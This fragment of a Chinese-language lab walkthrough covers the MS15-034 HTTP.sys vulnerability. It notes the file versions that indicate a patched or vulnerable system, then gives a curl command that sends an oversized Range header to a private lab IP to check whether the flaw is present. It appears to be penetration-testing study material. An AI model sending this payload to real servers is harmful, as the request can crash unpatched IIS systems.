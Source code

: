   
6.1.7601.18798 或更高，表示已修复  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBObzL3htyl6UjjOYrafzZQKdYuYpasz7icRibOiaejpltw9vyEnAJ3VrhA/640?wx_fmt=png&from=appmsg "")  
版本为：6.1.7600.16385,所以存在该漏洞。  
# msf漏洞利用  
## kali返回数据包判断是否存在ms15_034  

```
curl -v 192.168.2.153 -H &#34;Host:irrelevant&#34; -H &#34;Range:bytes=0-18446744073709551615&#34;


```

  